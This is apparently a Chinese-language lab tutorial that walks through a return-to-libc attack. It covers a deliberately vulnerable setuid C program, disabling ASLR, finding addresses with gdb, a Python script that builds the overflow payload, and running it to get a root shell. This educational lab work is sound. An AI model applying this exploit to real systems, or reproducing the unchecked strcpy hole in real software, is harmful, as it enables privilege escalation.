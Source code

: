 # return-to-libc 攻击

## 1. 环境准备

(关闭地址随机化) `sudo sysctl -w kernel.randomize_va_space=0`

(创建漏洞程序) 程序源码如下：
```c
#include "stdio.h"
#include "stdlib.h"
#include "string.h"

int foo(char *str) {
    char buffer[100];

	strcpy(buffer, str);
	return 1;
} 

int main(int argc, char **argv) {
	char str[400];
	FILE *badfile;

	badfile = fopen("badfile", "r");
	fread(str, sizeof(char), 300, badfile);
	foo(str);

	printf("Returned Properly\n");
	return 1;
}

```

(编译程序并设置为setuid程序)
```bash
gcc -fno-stack-protector -z noexecstack -o stack stack.c
sudo chown root stack
sudo chmod 4755 stack
```

## 2. 通过调试找到system与exit函数地址

```bash
$ touch badfile
$ gdb -q stack
$ r
$ p system
# 此处输出system函数地址
$ p exit
# 此处输出exit函数地址
```

## 3. 找到/bin/sh字符串的地址

首先创建一个打印环境变量地址的程序：

```c
// envaddr.c

#include "stdio.h"
#include "stdlib.h"

int main() {
	char *shell = (char *)getenv("MYSHELL");
	if (shell) {
		printf("Value: %s\n", shell);
		printf("Address: %x\n", (unsigned int)shell);
	}
	return 1;
}
```
随后编译并打印环境变量地址：
```bash
gcc envaddr.c -o env55
export MYSHELL="/bin/sh"
./env55
# 此处会打印出环境变量MYSHELL的地址
```

## 4. 构建恶意输入badfile

首先通过调试找到main调用foo函数时，ebp与buffer的地址：
```bash
$ gcc -fno-stack-protector -z noexecstack -g -o stack_dbg stack.c
$ touch badfile
$ gdb -q stack_dbg
$ b foo
$ r
$ p $ebp
# 此处输出ebp的地址，我的机器为0xbfffeb78
$ p &buffer
# 此处输出buffer的地址，我的机器为0xbfffeb0c
$ p/d 0xbfffeb78 - 0xbfffeb0c
108 # 该差值在不同机器一致
```

编写python脚本(libc_exploit.py)生成badfile

```python
#!/usr/bin/python3
import sys


content = bytearray(0xaa for i in range(300))

a3 = 0xbffffe1e # address of 'bin/sh'
content[120:124] = (a3).to_bytes(4, byteorder='little')

a2 = 0xb7e369d0 # address of exit() function
content[116:120] = (a2).to_bytes(4, byteorder='little')

a1 = 0xb7e42da0 # address of system() function
content[112:116] = (a1).to_bytes(4, byteorder='little')

with open('badfile', 'wb') as wb:
    wb.write(content)
```

注意：其中的a1、a2、a3根据你自己调试获得的地址赋值。

```bash
# 生成badfile
chmod u+x libc_exploit.py
./libc_exploit.py
```

## 5. 发起攻击

```bash
# 让/bin/sh指向/bin/zsh
sudo ln -sf /bin/zsh /bin/sh
# 执行stack
./stack
# 此时应该得到shell, 使用id查看权限
id
```
